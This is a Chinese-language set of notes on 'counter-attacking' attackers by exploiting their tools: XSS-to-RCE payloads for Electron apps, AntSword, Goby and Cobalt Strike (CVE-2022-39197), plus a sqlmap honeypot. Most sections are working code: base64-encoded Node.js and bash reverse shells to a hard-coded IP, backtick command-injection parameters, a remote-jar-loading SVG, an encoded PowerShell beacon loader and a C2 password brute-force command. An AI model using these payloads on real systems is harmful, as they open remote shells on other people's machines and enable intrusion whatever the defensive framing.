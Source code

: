 ## **electron开发的nodejs环境工具**
利用漏洞如CVE-2024-4367 - 在 PDF.js组件执行xss导致命令执行，反弹shell等。

若能xss直接rce：
```
<img src=x onerror="const{exec}=require('child_process');exec('start calc.exe');">
<img src=x onerror="const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');">
const{exec}=require('child_process');exec('ping rce.2qytvx.ceye.io');
```

## **Antsword蚁剑反制**
蓝队通过修改后门的代码实现获得蚁剑使用者的权限
复现环境：

* 蓝队：Linux Web
* 红队：Windows Antsword

原理：修改对方的一句话木马代码内容，嵌入js代码，蚁剑内置有nodejs运行环境。
```
<?php header('HTTP/1.1 500 <img src=# onerror=alert(1)>');
```

上线：使用Nodejs 代码反弹shell

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(xx, "xx.xx.xx.xx",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Nodejs 代码：

> 编码组合后：

```
<?php 
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCgxMDA4NiwgIjEyNy4wLjAuMSIsIGZ1bmN0aW9uKCl7Y2xpZW50LnBpcGUoc2guc3RkaW4pO3NoLnN0ZG91dC5waXBlKGNsaWVudCk7c2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
```

然后启用监听

```
nc -vlp 10086
```

当红队继续使用蚁剑连接后门时，拿到红队机器权限

> 攻击者在连接shell时，会爆红色错误
> 权限取决于蚁剑使用者的权限
> 关闭蚁剑也不会掉权限
## **SQLMAP反制**

蓝队提前构造注入页面诱使红队进行 sqlmap 注入拿到红队机器权限原理

复现环境：

* 蓝队：Linux Web
* 红队：Linux sqlmap

原理：

命令管道符``：
```
linux： ping   "`ls`"     先执行ls当为命令作为参数，再执行ping
Windows： ping | dir     先执行ping，再执行dir
```
构造注入点页面固定注入参数值，等待攻击者进行注入
参数中有``执行反弹shell命令
```
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`dir`"
sqlmap -u "http://xx.xx.xx.xx/test.html?id=aaa&b=`exec /bin/sh 0</dev/tcp/47.94.236.117/2333 1>&0 2>&0`"
```
> 任意sqlmap版本，注意当前操作系统的管道符进行替换即可
    
实战操作：
1、测试反弹编码
```
bash -i >& /dev/tcp/47.94.236.117/2333 0>&1 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYxechoYmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i
```

2、蓝队构造页面test.php注入页面固定参数值
```
<html>
<head>
    <meta charset="utf-8">  
    <title> A sqlmap honeypot demo</title>
</head>
<body>
 <input>search the user</input>   <!--创建一个空白表单-->
 
 <form action="pass.php" method="post" enctype="text/plain">
  
  <!--创建一个隐藏的表单-->
  <input type='hidden' name='name' value="Lucy&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"/> 
  <!--创建一个按钮，提交表单内容-->
  <input type="submit" value='提交'>
 
 </form>
 
</body>
</html>
```

3、红队攻击者进行注入测试
没有观察就直接执行命令，导致执行了反弹shell命令。
```
sqlmap -u "http://xx.xx.xx.xx/test.php" --data "name=xiaodi&id=45273434&query=shell`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMjMzMyAwPiYx | base64 -d|bash -i`&port=6379"
```

## **漏洞扫描工具Goby反制**
Goby客户端也是有nodejs环境。
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 Goby

测试的JS文件
> 1.js
```
(function(){
require('child_process').exec('calc.exe');
})();
```

RCE:
> index.php
```
<?php
header("X-Powered-By: PHP/<img src=1 onerror=import(unescape('http%3A//127.0.0.1/2.js'))>");
?>
<head>
<title>TEST</title>
</head>
<body>
testtest
</body>
</html>
```

> 2.js里面那串是CS生成的powershell命令上线脚本
>红队扫描到这个有php的网址
> 查看资产就会上线

```
(function(){
require('child_process').exec('powershell -nop -w hidden -encodedcommand JABzAD......RQBuAGQAKAApADsA');
})();
```

## **远程控制工具CobaltStrike反制**
复现环境:
* 蓝队：Linux Web
* 红队：Windows10 

对抗Cobaltstrike中的手段：
### **1、伪造流量让cs批量上线假的(欺骗防御，恶搞)**
链接：https://mp.weixin.qq.com/s/VCRg6F9Wq-yg-qajDoJuaw 

### **2、利用漏洞(CVE-2022-39197)**
> Cobalt Strike<=4.7 xss2rce
复现文章：<https://blog.csdn.net/qq_44110340/article/details/130731647>

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

* 获取真实ip地址
* 获取NTLM
* RCE
* SSRF

链接：https://github.com/its-arun/CVE-2022-39197
修改EXP里面的代码，EvilJar/src/main/java/Exploit.java，如执行命令，后编译成.jar

修改svg文件中加载地址：evil.svg指向url地址为公网的EvilJar-1.0-jar-with-dependencies.jar
```
<svg xmlns="http://www.w3.org/2000/svg"xmlns:xlink="http://www.w3.org/1999/xlink"version="1.0"><script type="application/java-archive"xlink:href="http://47.94.236.117:8888/EvilJar-1.0-jar-with-dependencies.jar*/><text>CVE-2022-39197</text></svg>
```
可以用python开启访问web服务：
```
python -m http.server 8888
```
执行EXP，自动运行后门上线，攻击者客户端进入列表查看进程时触发命令执行。
```
python cve-2022-39197.py 木马.exe http://47.94.236.117:8888/evil.svg
```

### **3、反制Server服务器,爆破密码（通用)**
针对没有采用隐匿C2地址的技术（cdn，云函数）导致的反制（后门样本被溯源到C2地址）。

用火绒剑查看木马的远程连接服务器ip，一般默认端口为50050。
或直接将样本上传威胁感知平台。

链接：https://github.com/ryanohoro/csbruter
爆破服务端密码：
```
python csbruter.py 127.0.0.1:50050 pass.txt
```
爆出密码即可在cs本地端连接对方服务器。

